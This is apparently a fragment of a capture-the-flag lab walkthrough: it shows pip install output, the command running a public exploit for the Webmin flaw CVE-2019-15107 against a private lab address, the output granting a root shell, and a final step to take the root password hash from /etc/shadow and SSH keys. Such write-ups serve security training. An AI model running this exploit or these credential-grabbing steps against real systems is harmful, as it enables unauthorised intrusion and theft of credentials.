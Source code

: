 ```
  Downloading argparse-1.4.0-py2.py3-none-any.whl (23 kB)
Requirement already satisfied: requests in /usr/local/lib/python3.9/dist-packages (from -r requirements.txt (line 2)) (2.20.0)
Requirement already satisfied: urllib3 in /usr/local/lib/python3.9/dist-packages (from -r requirements.txt (line 3)) (1.24.3)
Requirement already satisfied: prompt_toolkit in /usr/lib/python3/dist-packages (from -r requirements.txt (line 4)) (3.0.14)
Requirement already satisfied: chardet<3.1.0,>=3.0.2 in /usr/local/lib/python3.9/dist-packages (from requests->-r requirements.txt (line 2)) (3.0.4)
Requirement already satisfied: certifi>=2017.4.17 in /usr/lib/python3/dist-packages (from requests->-r requirements.txt (line 2)) (2020.6.20)
Requirement already satisfied: idna<2.8,>=2.5 in /usr/local/lib/python3.9/dist-packages (from requests->-r requirements.txt (line 2)) (2.7)
Installing collected packages: argparse
Successfully installed argparse-1.4.0

chmod +x CVE-2019-15107.py
```
* run the exploit code
```
./CVE-2019-15107.py 10.200.98.200                                                                                      
                                                                                                                                                                               
        __        __   _               _         ____   ____ _____                                                                                                             
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|                                                                                                            
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|                                                                                                              
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___                                                                                                             
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|                                                                                                             
                                                                                                                                                                               
                                                @MuirlandOracle                                                                                                                
                                                                                                                                                                               
                                                                                                                                                                               
[*] Server is running in SSL mode. Switching to HTTPS                                                                                                                          
[+] Connected to https://10.200.98.200:10000/ successfully.          
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# whoami
root
#
```
* with root access grab root password hash from /etc/shadow, grab SSH keys, chmod 600 file, test keys

